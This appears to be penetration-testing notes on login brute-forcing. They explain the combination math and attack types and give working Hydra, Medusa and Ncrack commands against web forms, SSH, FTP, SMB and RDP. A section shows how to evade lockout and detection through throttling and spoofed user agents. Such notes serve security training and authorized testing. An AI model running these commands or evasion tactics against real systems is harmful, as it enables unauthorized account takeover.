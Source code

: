 # Log-in Brute Forcing

## Login Brute Forcing

Login brute-forcing is a systematic approach to discovering valid credentials by attempting numerous combinations against authentication systems. This technique uses computational power to test many possible username and password variations.

### Mathematical Complexity

The total possible combinations in a brute force attack can be calculated as:

```
Possible Combinations = Character Set Size^Password Length
```

For example:

* Lowercase letters only (26 characters): 26^8 = 208,827,064,576 combinations for an 8-character password
* Lowercase + uppercase (52 characters): 52^8 = 53,459,728,531,456 combinations
* Alphanumeric (62 characters): 62^8 = 218,340,105,584,896 combinations
* Full ASCII printable (95 characters): 95^8 = 6,634,204,312,890,625 combinations

### Attack Types

#### Dictionary Attack

Uses predefined lists of common usernames and passwords instead of generating all possibilities.

#### Hybrid Attack

Combines dictionary words with patterns, numbers, or special characters (e.g., password123, Password123!).

#### Rule-Based Attack

Applies transformation rules to dictionary words (capitalization, character substitution, etc.).

#### Credential Stuffing

Uses leaked credentials from other breaches to attempt access to different services.

### Tools

#### Hydra

Hydra is a parallelized login cracker that supports numerous protocols.

**Basic Syntax**

```bash
hydra -L [username list] -P [password list] [target] [protocol] "[path]:[form parameters]:[failed login message]"
```

**HTTP POST Form**

```bash
hydra -L users.txt -P passwords.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
```

**HTTP GET Form**

```bash
hydra -L users.txt -P passwords.txt 10.10.10.10 http-get "/login.php:username=^USER^&password=^PASS^:Login failed"
```

**SSH Brute Force**

```bash
hydra -L users.txt -P passwords.txt ssh://10.10.10.10
```

**FTP Brute Force**

```bash
hydra -L users.txt -P passwords.txt ftp://10.10.10.10
```

**SMB Brute Force**

```bash
hydra -L users.txt -P passwords.txt smb://10.10.10.10
```

**RDP Brute Force**

```bash
hydra -L users.txt -P passwords.txt rdp://10.10.10.10
```

**Additional Options**

```bash
# Stop after first valid credential pair
hydra -L users.txt -P passwords.txt -f 10.10.10.10 service

# Set number of parallel tasks
hydra -L users.txt -P passwords.txt -t 4 10.10.10.10 service

# Verbose output
hydra -L users.txt -P passwords.txt -V 10.10.10.10 service

# Custom port
hydra -L users.txt -P passwords.txt -s 8080 10.10.10.10 http-post-form
```

#### Medusa

```bash
medusa -h [host] -U [username list] -P [password list] -M [module]
```

#### Ncrack

```bash
ncrack -U [username list] -P [password list] [target]:[port]
```

### Defense Evasion

#### Rate Limiting

Space out login attempts to avoid triggering lockout policies:

```bash
hydra -L users.txt -P passwords.txt -t 1 -W 5 10.10.10.10 service
```

#### Targeted Usernames

Use validated usernames instead of large lists:

```bash
hydra -l admin -P passwords.txt 10.10.10.10 service
```

#### Custom User Agents

Use realistic user agents to avoid detection:

```bash
hydra -L users.txt -P passwords.txt http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
```

### Best Practices

1. **Always obtain proper authorization** before performing brute force attacks
2. **Document all testing** activities
3. **Use incremental approaches** starting with targeted attempts before wider brute forcing
4. **Monitor for account lockouts** to prevent denial of service
5. **Consider timing attacks** to minimize impact on production systems
